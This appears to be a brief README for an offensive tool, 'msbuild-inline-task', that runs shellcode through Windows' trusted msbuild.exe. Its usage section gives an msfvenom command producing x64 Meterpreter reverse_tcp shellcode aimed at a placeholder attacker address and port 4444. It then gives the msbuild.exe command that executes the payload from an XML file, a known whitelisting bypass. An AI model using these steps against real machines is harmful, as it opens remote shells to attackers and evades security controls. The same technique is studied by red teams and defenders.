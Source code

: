# msbuild-inline-task


## Usage:

### X64 shellcode 

`msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=x.x.x.x lport=4444 -f csharp`

### change shellcode in xml file
`C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe shellcode_x64.xml`



Author: Casey Smith, Twitter: @subTee

License: BSD 3-Clause

More details:

https://3gstudent.github.io/3gstudent.github.io/Use-MSBuild-To-Do-More/
